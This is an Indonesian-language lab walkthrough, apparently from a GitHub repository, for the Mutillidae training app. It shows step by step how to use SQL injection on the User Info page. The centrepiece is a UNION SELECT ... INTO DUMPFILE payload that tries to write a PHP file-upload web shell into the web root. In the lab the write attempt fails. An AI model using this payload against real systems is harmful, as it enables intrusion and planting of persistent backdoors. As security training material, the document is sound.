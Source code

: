 # Mutillidae Lesson 11


### Membuka Halaman User Info

- Pada client, buka mutillidae dari browser
```
http://[ip_metasploit]/mutillidae
```
- Buka halaman User Info
```
OWASP TOP 10 -> A1 - SQL Injection -> SQLi Extract Data -> User Info
```
![](Mutillidae%20lesson%211/4.png)

### SQL Injection dengan Output File upload_file.php
- Pada halaman User Info, lakukan inspect element pada form Name dan ubah nilai size menjadi 100.
![](Mutillidae%20lesson%211/5.png)
- Dan pada tombol View Account Details ubah align menjadi left.
![](Mutillidae%20lesson%211/6.png)
- Isi form Name dengan string berikut
```
' union select null,null,null,null,'<html><body><div><?php if(isset($_FILES["fupload"])) { $source = $_FILES["fupload"]["tmp_name"]; $target = $_FILES["fupload"]["name"]; move_uploaded_file($source,$target); system("chmod 770 $target"); $size = getImageSize($target); } ?></div><form enctype="multipart/form-data" action="<?php print $_SERVER["PHP_SELF"]?>" method="post"><p><input type="hidden" name="MAX_FILE_SIZE" value="500000"><input type="file" name="fupload"><br><input type="submit" name="upload!"><br></form></body></html>' INTO DUMPFILE '/var/www/html/mutillidae/upload_file.php' -- 
```
- Klik View Account Details
![](Mutillidae%20lesson%2011/7.png)
- Hasil error tidak bisa menulis file.
![](Mutillidae%20lesson%2011/8.png)
